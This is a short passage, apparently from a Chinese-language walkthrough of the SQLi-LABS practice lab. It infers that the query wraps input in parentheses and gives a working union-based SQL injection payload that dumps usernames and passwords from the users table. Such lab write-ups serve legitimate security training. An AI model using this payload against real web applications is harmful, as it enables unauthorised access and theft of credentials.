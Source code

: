 ![image-20210923193545135](../../images/SQLi-LABS/image-20210923193545135.png)

+ 发现多了`)`括号。我们可以假设该语句为：

```sql
select column1, column2, column3 from users where id = ('$id') limit 0, 1;
```

+ 由于Less-1，我们已经猜出列名和列数量。我们可以执行使用查询`users`表的数据。

```sql
?id=') union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```

![image-20210923194821023](../../images/SQLi-LABS/image-20210923194821023.png)
